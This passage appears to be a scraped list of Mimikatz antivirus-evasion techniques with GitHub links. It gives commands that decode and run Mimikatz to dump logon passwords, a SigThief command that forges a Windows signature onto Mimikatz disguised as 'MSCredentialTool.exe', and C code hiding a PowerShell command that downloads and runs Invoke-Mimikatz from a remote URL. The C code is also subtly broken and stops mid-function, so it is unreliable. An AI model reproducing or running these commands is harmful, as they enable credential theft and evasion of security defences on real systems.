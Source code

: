 https://github.com/VraiHack/Obfuscated_Invoke-Mimikatz



### mimikatz_encoded

```
certutil -decode mimikatz_encoded.bin mimikatz.exe && mimikatz.exe "sekurlsa::logonPasswords full" exit
```

https://github.com/mobx26/mimikatz_encoded



### Encrypted_Mimikatz

```
.\decrypt.ps1
.\mimikatz.exe "sekurlsa::logonPasswords full" exit
```

https://github.com/Sombody101/Encrypted_Mimikatz


### SigThief

```
sigthief.py -i c: \Windows\System32\consent.exe -t mimikatz. exe -o MSCredentialTool.exe
```

https://github.com/secretsquirrel/SigThief





### memory+suspended

```
#include <stdio.h>
#include <windows.h>

const char* cmd = "powershell.exe -windowstyle hidden -command \"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/gentilkiwi/mimikatz/master/mimikatz.ps1'); Invoke-Mimikatz -DumpCreds\"";

void obfuscate(char* str)
{
    int len = strlen(str);
    for (int i = 0; i < len; i++) {
        str[i] = str[i] ^ 0x41;
    }
}

int main()
{
    char* encoded_cmd = "YWxpY2UgY29tbWFuZCAtIHdpbmRvd3N0eWxlIGhpZGRlbjsgLWNvbW1hbmQgIklFWCAoTmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cHM6Ly9yYXdAZ2VudGlsa2l3aS9taW1pa2F0ei9tZXRhZGF0YS9taW1pa2F0ei5wczEnKTsgSW52b2tlLU1pbWlrYXR6IC1EdW1wQ3JlZHMK\"";
    obfuscate(encoded_cmd);

    DWORD pid = GetCurrentProcessId();
    HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (process == NULL) {
        printf("Error opening process. Error code: %lu\n", GetLastError());
        return 1;
    }

    LPVOID remote_string = VirtualAllocEx(process, NULL, strlen(encoded_cmd), MEM_COMMIT, PAGE_READWRITE);
```